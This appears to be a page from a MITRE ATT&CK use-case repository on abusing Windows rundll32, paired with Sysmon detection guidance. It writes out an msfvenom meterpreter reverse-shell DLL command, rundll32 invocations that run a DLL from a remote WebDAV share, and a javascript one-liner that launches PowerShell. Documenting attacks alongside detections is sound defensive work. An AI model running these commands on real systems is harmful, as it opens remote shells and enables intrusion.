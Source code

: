 ## Rundll32

Rundll32 is a legitimate executable in windows that is cable to run 32bit DLLS

Run only 32-bit DLLs

to create DLL from MSF venom

```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=[Port] -f dll -o evil.dll
```

then run the dll using one of the following commands

```powershell
rundll32 \\webdavserver\evil.dll,entrypoint
```

```powershell
rundll32 C:\evil.dll,EntryPoint
```

```powershell
rundll32 shell32.dll,Control_RunDLL C:\evil.dll
```


Also can run JavaScript that execute PowerShell
```powershell
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";new%20ActiveXObject("WScript.Shell").Run("powershell  -c new-item c:\\users\\noname\\desktop\\testrund.txt",0);window.close();

```


### Detection

- sysmon

  - Process Create

    - Rundll32 process creation with cmd as parent process

  - Module Loading

    - Rundll32 load module like ws2_32.dll

  - Network Connection

    - from rundll32 process

      

![Mermaid](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/WSH/Misc/Mermaid.jpg)



**Sysmon Rule** 

```xml
<Sysmon schemaversion="4.00">
<HashAlgorithms>md5,sha256,IMPHASH</HashAlgorithms>
  <EventFiltering>
		<ProcessCreate onmatch="include">
			<Image condition="contains">Rundll32.exe</Image>
		</ProcessCreate>
		
		<NetworkConnection>
			<Image condition="contains">Rundll32.exe</Image>
		</NetworkConnection>
      
		<ImageLoad onmatch="include"> 
			<ImageLoaded condition="contains">ws2_32.dll</ImageLoaded>
		</ImageLoad>
		
		
	</EventFiltering>
</Sysmon>
```

*this rule is just for demonstration, you shouldn't include on process create and Network connection  etc* 


### Reference

[Explain Rundll32 with JS](https://stackoverflow.com/questions/25131484/rundll32-exe-javascript)

